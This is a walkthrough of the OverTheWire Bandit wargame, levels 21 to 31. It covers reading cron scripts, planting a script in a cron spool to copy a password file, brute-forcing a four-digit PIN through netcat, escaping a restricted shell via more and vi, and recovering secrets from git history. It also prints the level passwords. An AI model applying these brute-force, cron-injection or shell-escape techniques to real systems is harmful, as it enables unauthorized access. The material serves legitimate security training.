






## Level 21 -> 22



### Goal
The password for the next level can be obtained by examining a running cron job.

### Steps
1.  Check the `/etc/cron.d/` directory.
    ```bash
    ls /etc/cron.d/
    ```
2.  Read the file `cronjob_bandit22`. It points to the script `/usr/bin/cronjob_bandit22.sh`.
    ```bash
    cat /usr/bin/cronjob_bandit22.sh
    ```
3.  The script copies the password to a temporary file in `/tmp`. Read that file.
    ```bash
    cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
    ```
4.  Password obtained: `tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q`

### Command Explanation
*   `cron`: Daemon to execute scheduled commands.
*   `/etc/cron.d`: Directory for cron job configuration files.

---

## Level 22 -> 23



### Goal
The password is stored in a temporary file whose name is generated from the MD5 hash of the target username.

### Steps
1.  Check `cronjob_bandit23` and read its script `/usr/bin/cronjob_bandit23.sh`.
2.  The script uses the command:
    ```bash
    echo I am user $myname | md5sum | cut -d ' ' -f 1
    ```
3.  We need to know the filename for user `bandit23`.
    ```bash
    echo I am user bandit23 | md5sum | cut -d ' ' -f 1
    ```
4.  The hash result is `8ca319486bfbbc3663ea0fbe81326349`.
5.  Read the password file at `/tmp/HASH_RESULT`.
    ```bash
    cat /tmp/8ca319486bfbbc3663ea0fbe81326349
    ```
6.  Password obtained: `0Zf11ioIjMVN551jX3CmStKLYqjk54Ga`

### Command Explanation
*   `md5sum`: Computes MD5 hash.

---

## Level 23 -> 24


### Goal
The password is stored in `/etc/bandit_pass/bandit24`. We need to create our own script that will be executed by the `bandit24` cron job.

### Steps
1.  Create a working directory in `/tmp` (e.g., `/tmp/exploityoga`).
2.  Create a script `copy.sh`:
    ```bash
    #!/bin/bash
    cat /etc/bandit_pass/bandit24 > /tmp/exploityoga/password
    ```
3.  Give execution permissions and ensure the destination directory is writable (chmod 777).
    ```bash
    chmod 777 copy.sh
    chmod 777 /tmp/exploityoga
    ```
4.  Copy the script to `/var/spool/bandit24/foo`.
    ```bash
    cp copy.sh /var/spool/bandit24/foo/
    ```
5.  Wait up to 1 minute for the cron job to run.
6.  Check the file `/tmp/exploityoga/password`.
    ```bash
    cat /tmp/exploityoga/password
    ```
7.  Password obtained: `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`

### Command Explanation
*   `/var/spool`: Directory for data awaiting processing (like cron jobs or mail).

---

## Level 24 -> 25



### Goal
The password is stored by a daemon listening on port 30002. The daemon asks for the `bandit24` password and a secret 4-digit PIN.

### Steps
1.  We need to brute-force the PIN from 0000 to 9999.
2.  Use a one-line bash script to send all possibilities.
    ```bash
    for i in {0000..9999}; do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done | nc localhost 30002
    ```
3.  Filter the output to find the correct answer ("Correct!").
    ```bash
    ... | nc localhost 30002 | grep -v "Wrong"
    ```
4.  Password obtained: `iCi86ttT4KSNe1armKiwbQNmB3YJP3q4`

### Command Explanation
*   `for loop`: Loop to iterate through numbers.

---

## Level 25 -> 26


### Goal
Login to `bandit25`. The shell is `/usr/bin/showtext`, which is restricted.

### Steps
1.  Login to `bandit25`.
2.  The `showtext` shell displays the content of `bandit26.sshkey` using `more`.
3.  Resize your terminal window so the text doesn't fit on one screen, forcing `more` to pause and show `--More--`.
4.  Press `v` to launch `vi`.
5.  Inside `vi`, run commands to spawn a shell:
    ```vim
    :set shell=/bin/bash
    :shell
    ```
6.  Now you have a shell! Read the key file.
    ```bash
    cat bandit26.sshkey
    ```
7.  Save this key to `bandit26.private` on your local machine and set permission `600`.

### Command Explanation
*   `vi`: Text editor that allows shell command execution.

---

## Level 26 -> 27



### Goal
Login to `bandit26` and run the setuid binary `bandit27-do`. The shell is also restricted.

### Steps
1.  Use the private key to login to `bandit26`.
    ```bash
    ssh -i bandit26.private bandit26@bandit.labs.overthewire.org -p 2220
    ```
2.  Immediately after login, the shell runs `more`. Do the same trick (press `v`, then `:set shell=/bin/bash` in vi, then `:shell`).
3.  Run the `bandit27-do` binary to read the password.
    ```bash
    ./bandit27-do cat /etc/bandit_pass/bandit27
    ```
4.  Password obtained: `upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB`

### Command Explanation
*   `bandit27-do`: Special binary to escalate privileges to the next user.

---

## Level 27 -> 28


### Goal
The password is obtained by cloning a git repository.

### Steps
1.  The repository is at `ssh://bandit27-git@localhost:2220/home/bandit27-git/repo`.
2.  User `bandit27-git` cannot login via SSH, but can clone via git.
3.  Clone the repo to a directory in `/tmp`.
    ```bash
    mkdir /tmp/gitrepo
    cd /tmp/gitrepo
    git clone ssh://bandit27-git@localhost:2220/home/bandit27-git/repo
    ```
4.  Enter the password `upsNCc...` when prompted.
5.  Read the `README` file.
    ```bash
    cat repo/README
    ```
6.  Password obtained: `Yz9IpL0sBcCeuG7m9uQFt8ZNpS4HZRcN`

### Command Explanation
*   `git clone`: Clones a git repository.

---

## Level 28 -> 29



### Goal
The password is stored in the git log (commit history).

### Steps
1.  Clone repo `bandit28-git` (password same as previous level).
2.  Check git log showing patches.
    ```bash
    git log -p
    ```
3.  Look at the diff of the commit that removed the password.
4.  Password obtained: `4pT1t5DENaYuqnqvadYs1oE4QLCdjmJ7`

### Command Explanation
*   `git log -p`: Shows commit logs along with file changes (patches).

---

## Level 29 -> 30



### Goal
The password is stored in a different git branch.

### Steps
1.  Clone repo `bandit29-git`.
2.  List all branches.
    ```bash
    git branch -a
    ```
3.  Switch to the development branch (`dev` or similar).
    ```bash
    git checkout dev
    ```
4.  Read `README.md`.
5.  Password obtained: `qp30ex3VLz5MDG1n91YowTv4Q8l7CDZL`

### Command Explanation
*   `git branch`: Lists branches.
*   `git checkout`: Switches branches.

---

## Level 30 -> 31


### Goal
The password is stored in a git tag.

### Steps
1.  Clone repo `bandit30-git`.
2.  List tags.
    ```bash
    git tag
    ```
3.  Show the content of tag `secret`.
    ```bash
    git show secret
    ```
4.  Password obtained: `fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy`

### Command Explanation
*   `git tag`: Lists tags.
*   `git show`: Shows details of a git object.

---

## Conclusion
Congratulations! You have solved the Bandit challenges up to Level 31. The next level might involve `git push`, but this guide ends here. Always remember to note down passwords and learn from every new command used.
